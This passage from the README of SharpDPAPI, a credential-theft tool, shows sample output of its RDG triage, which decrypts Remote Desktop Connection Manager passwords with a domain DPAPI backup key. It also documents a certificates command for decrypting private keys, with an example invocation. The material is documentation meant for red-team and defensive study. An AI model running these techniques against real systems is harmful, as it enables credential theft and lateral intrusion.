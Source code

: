 
    [*] Action: RDG Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Triaging RDCMan.settings Files for ALL users

        RDCManFile    : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
        Accessed      : 5/9/2019 11:52:58 AM
        Modified      : 5/9/2019 11:52:58 AM
        Recent Server : test\primary.testlab.local

            Cred Profiles

              Profile Name : testprofile
                UserName   : testlab.local\dfm.a
                Password   : Password123!

            Default Logon Credentials

              Profile Name : Custom
                UserName   : TESTLAB\harmj0y
                Password   : Password123!

          C:\Users\harmj0y\Documents\test.rdg

            Servers

              Name         : secondary.testlab.local

              Name         : primary.testlab.local
              Profile Name : Custom
                UserName   : TESTLAB\dfm.a
                Password   : Password123!


#### certificates

The **certificates** command will search user encrypted DPAPI certificate private keys a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

A specific certificiate can be specified with `/target:C:\Folder\`. In this case, either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe certificates {2fd105b7-ec31-4f33-969e-f57c16d8e718}:79097C8...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.7.0
